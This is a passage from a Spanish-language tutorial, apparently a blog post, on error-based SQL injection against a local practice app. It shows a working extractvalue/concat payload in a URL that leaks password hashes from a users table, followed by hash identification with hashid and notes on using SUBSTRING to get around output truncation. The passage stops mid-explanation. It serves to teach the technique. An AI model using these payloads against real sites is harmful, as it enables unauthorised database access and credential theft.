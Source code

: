Ya estamos tratando con información real!!

### Contraseñas [#](#explotacion-sqli-error-based-values-password) {#explotacion-sqli-error-based-values-password}

Intentemos leer las contraseñas.

```sql
SELECT password_hash FROM gamesatin.gamesatin_users LIMIT 0,1;
```

```html
http://localhost:5000/details?id=2 AND extractvalue(rand(),concat(0x3a,(SELECT password_hash FROM gamesatin.gamesatin_users LIMIT 0,1)));#
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/articles/sqli-error-based/lanzbSQLIERRORBASED-page5000-details-sqli-gamesatin-gamesatin_users-password_hash-limit-0-1.png" style="width: 100%;"/>

Para [conocer](https://hashcat.net/wiki/doku.php?id=example_hashes) qué [algoritmo de hashing](https://www.ionos.es/digitalguide/paginas-web/desarrollo-web/hashing/) fue usado, podemos apoyarnos de herramientas web como [TunnelsUP](https://www.tunnelsup.com/hash-analyzer/) o de consola como [hashid](https://www.kali.org/tools/hashid/) o [hash-identifier](https://www.kali.org/tools/hash-identifier/).

```bash
➧ hashid '$2y$10$tQcW5eKQwlfoEIR9tBvNfuBp'
Analyzing '$2y$10$tQcW5eKQwlfoEIR9tBvNfuBp'
[+] Unknown hash

➧ hash-identifier
...
 Not Found.
```

No identifican que algoritmo fue usado, si filtramos por el inicio de la cadena (`$2` o `$2y$`) tanto en [ejemplos](https://hashcat.net/wiki/doku.php?id=example_hashes) como en la [web](https://security.stackexchange.com/questions/136843/what-type-of-hashes-are-these-and-what-are-salts), encontramos que posiblemente se usó el algoritmo [Bcrypt](https://en.wikipedia.org/wiki/Bcrypt), el cual en su proceso de derivación es lento y dificulta el proceso de fuerza bruta.

Algo que iluminador es que si comparamos la longitud de nuestro hash (32 bytes) con la de algún ejemplo (desde 40 bytes más o menos), al parecer nos faltan caracteres.

Para validarlo, podemos hacer uso de la función [SUBSTRING](https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_substring) de **MySQL** para extraer longitudes específicas de cadenas/resultados, ejemplo:

```txt
holaestaeslacontraseña,peronosevecompletayestamosasustaos
```

Actualmente, nos está extrayendo 32 caracteres, o sea:

```txt
holaestaeslacontraseña,peronos
```

Si hacemos la prueba contra el servidor web, nos lo confirma:
